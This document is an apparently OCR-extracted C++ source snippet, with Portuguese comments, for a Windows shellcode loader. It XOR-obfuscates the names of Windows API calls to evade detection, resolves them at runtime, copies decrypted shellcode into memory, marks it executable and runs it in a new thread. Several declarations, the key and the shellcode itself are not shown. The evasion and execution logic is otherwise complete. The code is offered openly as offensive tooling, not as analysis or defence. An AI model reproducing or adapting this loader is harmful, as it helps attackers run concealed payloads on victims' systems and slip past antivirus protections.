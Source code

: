 ```cpp
//XOR encrypted da RtlMoveMemory
unsigned char cRM[] = {0x65, 0x1c, 0x5f, 0x01, 0x5f, 0x05, 0x52, 0x0e, 0x51, 0x1f, 0x0c, 0x42, 0x0a, 0x34};
unsigned int cRMLen = sizeof(cRM);

void XOR(char * data, size_t data_len, char * key, size_t key_len) {
    int a;
    a = 0;

    for (int i = 0; i < data_len; i++) {
        if (a == key_len - 1) a = 0;

        data[i] = data[i] ^ key[a];
        a++;
    }
}

int main(void) {
    DWORD oldProtect = 0;
    BOOL rx;
    HANDLE thread;

    // deXOR da VirtualAlloc
    XOR((char *) cVA, cVALen, xor_key, sizeof(xor_key));
        // deXOR do shellcode
    XOR((char *) shellcode, shellcode_size, xor_key, sizeof(xor_key));
    // deXOR da VirtualProtect
    XOR((char *) cVP, cVPLen, xor_key, sizeof(xor_key));
    // deXOR da CreateThread
    XOR((char *) cCT, cCTLen, xor_key, sizeof(xor_key));
    // deXOR da WaitForSingleObject
    XOR((char *) cWFSO, cWFSOLen, xor_key, sizeof(xor_key));
    // deXOR da RtlMoveMemory
    XOR((char *) cRM, cRMLen, xor_key, sizeof(xor_key));

    pVA = GetProcAddress(GetModuleHandle("kernel32.dll"), cVA);
    pVP = GetProcAddress(GetModuleHandle("kernel32.dll"), cVP);
    pCT = GetProcAddress(GetModuleHandle("kernel32.dll"), cCT);
    pWFSO = GetProcAddress(GetModuleHandle("kernel32.dll"), cWFSO);
    pRM = GetProcAddress(GetModuleHandle("kernel32.dll"), cRM);

    void *exec_mem = pVA(0, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);


    pRM(exec_mem, shellcode, shellcode_size);

    rx = pVP(exec_mem, shellcode_size, PAGE_EXECUTE_READ, &oldProtect);

    if ( rx != 0 ) {
            thread = pCT(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
            pWFSO(thread, -1);
    }

    return 0;
}
```
